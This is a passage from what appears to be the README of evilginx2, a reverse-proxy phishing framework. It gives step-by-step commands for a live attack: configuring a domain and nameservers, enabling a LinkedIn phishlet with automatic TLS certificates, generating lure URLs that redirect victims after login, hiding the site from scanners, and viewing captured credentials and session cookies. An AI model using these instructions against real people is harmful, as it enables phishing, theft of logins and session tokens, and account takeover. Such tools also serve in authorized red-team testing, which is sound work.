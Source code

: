 You should see **evilginx2** logo with a prompt to enter commands. Type `help` or `help <command>` if you want to see available commands or more detailed information on them.

## Getting started

To get up and running, you need to first do some setting up.

At this point I assume, you've already registered a domain (let's call it `yourdomain.com`) and you set up the nameservers (both `ns1` and `ns2`) in your domain provider's admin panel to point to your server's IP (e.g. 10.0.0.1):
```
ns1.yourdomain.com = 10.0.0.1
ns2.yourdomain.com = 10.0.0.1
```

Set up your server's domain and IP using following commands:
```
config domain yourdomain.com
config ip 10.0.0.1
```

Now you can set up the phishlet you want to use. For the sake of this short guide, we will use a LinkedIn phishlet. Set up the hostname for the phishlet (it must contain your domain obviously):
```
phishlets hostname linkedin my.phishing.hostname.yourdomain.com
```

And now you can `enable` the phishlet, which will initiate automatic retrieval of LetsEncrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```
phishlets enable linkedin
```

Your phishing site is now live. Think of the URL, you want the victim to be redirected to on successful login and get the phishing URL like this (victim will be redirected to `https://www.google.com`):
```
lures create linkedin
lures edit 0 redirect_url https://www.google.com
lures get-url 0
```

Running phishlets will only respond to phishing links generating for specific lures, so any scanners who scan your main domain will be redirected to URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid lure phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```
sessions <id>
```
